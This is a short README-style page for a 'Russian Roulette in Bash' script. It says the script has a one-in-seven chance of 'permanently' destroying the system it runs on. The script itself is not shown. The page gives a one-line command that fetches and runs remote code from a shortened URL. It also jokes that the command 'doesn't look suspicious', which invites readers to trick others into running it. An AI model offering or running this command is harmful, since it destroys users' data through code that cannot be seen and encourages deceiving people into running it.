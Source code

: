 # Russian Roulette in Bash
## The code
Simple, and easy. Unstoppable once it has started. You can find the code [here.](https://github.com/ThyCowLord/ThyCowLord.github.io/blob/master/code/bashyoheadin.txt).

## How it works
It has seven barrels. If the random number is four, the system is __permanently destroyed.__

## Execution
To run it type: > bash <(wget https://git.io/vArE3).
It doesn't look suspicious, does it?
Run it, and weep.
